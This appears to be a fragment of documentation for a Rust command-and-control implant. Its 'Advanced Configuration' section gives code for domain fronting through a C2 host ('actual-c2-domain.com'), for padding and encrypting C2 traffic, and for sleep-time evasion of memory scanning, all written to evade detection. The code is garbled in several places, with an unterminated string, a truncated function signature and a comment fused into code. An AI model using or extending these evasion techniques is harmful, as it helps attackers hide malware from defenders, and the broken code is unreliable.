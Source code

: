 ## Advanced Configuration

### Domain Fronting

To implement domain fronting for evading network detection:

```rust
fn connect_with_domain_fronting(&self) -> Result<TcpStream, Box<dyn Error>> {
    let client = reqwest::Client::new();
    
    let resp = client.get("
        .header("Host", "actual-c2-domain.com")
        .send()?;
    
    // Process response and establish connection
}
```

### Traffic Obfuscation

To obfuscate the C2 traffic pattern:

```rust
fn send_obfuscated_message(&self, message: {
    // Add random padding
    let mut rng = rand::thread_rng();
    let padding_size = rng.gen_range(10..100);
    let padding: String = (0..padding_size)
        .map(|_| rng.gen_range(b'A'..=b'Z') as char)
        .collect();
    
    // Mix real data with padding
    let obfuscated = format!("{}::{}", message, padding);
    
    // Encrypt and send
    self.encrypt(&obfuscated)
}

fn deobfuscate_message(&self, data: &str) -> String {
    let decrypted = self.decrypt(data);
    
    // Extractlet parts: Vec<&str> = decrypted.split("::").collect();
    parts[0].to_string()
}
```

### Sleep Obfuscation

To evade memory scanning during sleep periods:

```rust
fn secure_sleep(&self, seconds: u64) {
    // Encrypt agent memory or use other techniques
    // to avoid detection during sleep
    
    // Simple implementation with thread sleep
    thread::sleep(Duration::from_secs(seconds));
}
```
